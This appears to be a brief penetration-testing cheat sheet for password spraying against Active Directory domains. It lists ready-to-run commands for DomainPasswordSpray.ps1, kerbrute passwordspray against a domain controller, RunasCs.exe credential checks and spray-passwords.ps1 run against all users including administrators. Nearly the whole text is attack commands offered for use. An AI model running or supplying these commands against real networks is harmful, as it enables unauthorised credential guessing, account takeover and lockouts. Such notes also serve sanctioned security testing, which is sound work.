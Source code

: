 ```yaml
---
legal-banner: true
---
```


### **Using DomainPasswordSpray.ps1**

1. Import the DomainPasswordSpray module:  
   ```powershell
   Import-Module .\DomainPasswordSpray.ps1
   ```

2. Run `Invoke-DomainPasswordSpray` with the desired password and output file parameters:  
   ```powershell
   Invoke-DomainPasswordSpray -Password [PASSWORD] -OutFile spray_success -ErrorAction SilentlyContinue
   ```

### **Using Kerbrute for Password Spraying**

1. Execute the password spray attack:  
   ```bash
   kerbrute passwordspray -d example.local --dc [IP_ADDRESS] valid_users.txt [PASSWORD]
   ```

### **Using RunasCs.exe**

1. Validate credentials locally without requiring SMB, LDAP, WinRM, Kerberos, or other authenticated services:  
   ```bash
   .\RunasCs.exe Administrator notthepassword "cmd /c whoami"
   ```

2. Use the `spray-passwords.ps1` script: [Spray-Passwords.ps1](https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)  

   Example usage to test passwords against all users in AD, including admins:  

   ```powershell
   .\spray-passwords.ps1 -Admin -Pass IamUser01
   .\spray-passwords.ps1 -Admin -Pass IamUser02
   ```
